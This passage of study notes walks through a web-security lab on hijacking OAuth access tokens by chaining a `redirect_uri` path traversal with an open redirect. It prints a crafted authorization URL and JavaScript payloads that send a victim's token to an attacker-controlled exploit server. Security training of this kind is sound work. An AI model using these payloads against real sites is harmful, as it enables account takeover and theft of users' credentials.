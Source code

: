 	- However, you can append additional characters to the default value without encountering an error, including the `/../` [path traversal](https://portswigger.net/web-security/file-path-traversal) sequence.
- Log out of your account on the blog website and turn on proxy interception in Burp.
- In the browser, log in again and go to the intercepted `GET /auth?client_id=[...]` request in Burp Proxy.
- Confirm that the `redirect_uri` parameter is in fact vulnerable to [directory traversal](https://portswigger.net/web-security/file-path-traversal) by changing it to:
  `https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post?postId=1`
	- Forward any remaining requests and observe that you are eventually redirected to the first blog post. 
	- In the browser, notice that your access token is included in the URL as a fragment.

- With the help of Burp, audit the other pages on the blog website. 
	- Identify the "Next post" option at the bottom of each blog post 
		- which works by redirecting users to the path specified in a query parameter.
		- Send the corresponding `GET /post/next?path=[...]` request to Repeater
		  
- In Repeater, experiment with the `path` parameter. 
	- Notice that this is an open redirect. 
	- You can even supply an absolute URL to elicit a redirect to a completely different domain, for example, your exploit server
	  
- Craft a malicious URL that combines these vulnerabilities. 
	- You need a URL that will initiate an OAuth flow with the `redirect_uri` pointing to the open redirect, which subsequently forwards the victim to your exploit server:
	  `https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit&response_type=token&nonce=399721827&scope=openid%20profile%20email`
- Test that this URL works correctly by visiting it in the browser. 
	- You should be redirected to the exploit server's "Hello, world!" page, along with the access token in a URL fragment.
- On the exploit server, create a suitable script at `/exploit` that will extract the fragment and output it somewhere. 
	- For example, the following script will leak it via the access log by redirecting users to the exploit server for a second time, with the access token as a query parameter instead:
```html
<script>
window.location = '/?'+document.location.hash.substr(1)
</script>
```

- To test that everything is working correctly, store this exploit and visit your malicious URL again in the browser. 
	- Then, go to the exploit server access log. 
	- There should be a request for `GET /?access_token=[...]`
	  
- You now need to create an exploit that first forces the victim to visit your malicious URL and then executes the script you just tested to steal their access token. 
- For example:
```html
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```
- To test that the exploit works, store it and then click "View exploit". 
	- The page should appear to refresh, but if you check the access log, you should see a new request for `GET /?access_token=[...]`
	  